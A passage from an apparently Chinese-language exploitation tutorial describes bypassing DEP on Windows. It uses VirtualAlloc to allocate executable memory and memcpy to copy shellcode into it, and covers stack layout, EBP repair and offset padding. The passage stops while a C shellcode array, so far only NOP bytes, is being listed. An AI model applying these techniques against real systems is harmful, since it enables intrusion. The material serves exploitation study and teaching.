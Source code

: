 <img src="images/09/virtualAlloc函数返回前内存状态.png" >

开辟了可执行空间后，接下来要将我们的shellcode中的一部分利用内存中已有的memcpy()复制到这个可执行空间去。

大家知道 memcpy 函数位于 ntdll.dll，需要三个参数，依次为目的内存起始地址、源内存起始地址、复制长度，其中目的内存起始地址和复制长度都可以直接写在 shellcode 中，唯一的
难点在于对源内存起始地址的确定。

实际上我们不需要精确的定位，只要保证源内存起始地址在 shellcode 中关键代码的前边即可，因此可以使用 ```PUSH ESP JMP EAX``` 指令来填充这个参数。

如何布置 EAX 想必大家都已经很熟悉，而关于 EAX 具体指向什么指令我们暂时先不讨论。另外一个需要注意的问题，在空间申请后EBP被设置成 0x00000000，而后边我们还会再用到 EBP，所以还需要修复 EBP。最后还需要注意 VirtualAlloc 函数返回时带有 16（0x10）个字节的偏移，要在 shellcode 中要添加相应的填充。shellcode 如下所示。

> 就我的实验环境下，```ret 10```执行后，esp=0012fee8,那么[0012fee8]中应当布置一个可执行指令的地址。

```c
char shellcode [] = 
      "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
```